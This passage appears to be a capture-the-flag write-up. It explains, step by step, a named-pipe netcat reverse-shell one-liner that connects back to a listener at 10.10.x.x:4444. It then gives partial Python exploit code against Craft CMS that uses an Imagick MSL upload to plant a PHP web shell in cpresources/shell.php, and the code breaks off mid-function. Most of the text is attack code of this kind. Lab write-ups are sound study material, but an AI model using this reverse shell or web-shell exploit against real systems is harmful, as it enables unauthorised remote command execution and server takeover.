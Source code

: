 I asked ChatGPT on the breakdown on how the one-liner works since it is a new approach for me to get a stable shell.

This is pretty much it:

1. **`**rm /tmp/f**`:**  
— Deletes any existing file named `/tmp/f` to ensure a fresh start.

2. **`**mkfifo /tmp/f**`:**  
— Creates a named pipe (FIFO) named `/tmp/f`. A named pipe is a special type of file that allows processes to communicate.

3. **`**cat /tmp/f | /bin/bash -i 2>&1**`:**  
— Reads from the named pipe (`/tmp/f`) and pipes the content to `/bin/bash` with the `-i` option for an interactive shell.  
— The `2>&1` redirects standard error (file descriptor 2) to standard output (file descriptor 1), ensuring that error messages are also sent through the pipeline.

4. **`**nc 10.10.x.x 4444 >/tmp/f**`:**  
— Initiates a Netcat (`nc`) connection to the IP address `10.10.x.x` on port `4444`.  
— The standard output of the entire pipeline (which includes the output of the Bash shell) is redirected to the named pipe `/tmp/f`. This completes the loop, sending the shell output back into the named pipe, creating a bidirectional communication channel.

— THE IP AND PORT IS CHANGEABLE BASED ON THE USER’S PREFERENCES.

So, to clarify:

- **The `rm` command removes any existing file at `/tmp/f`.  
- The `mkfifo` command creates a named pipe at `/tmp/f`.  
- The `cat | /bin/bash` pipeline creates an interactive Bash shell connected to the named pipe.  
- The `nc` command establishes a network connection and redirects the entire output, including the Bash shell output, back into the named pipe.

You should get a full functioning shell.


This is the exploit code ~
```

import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
```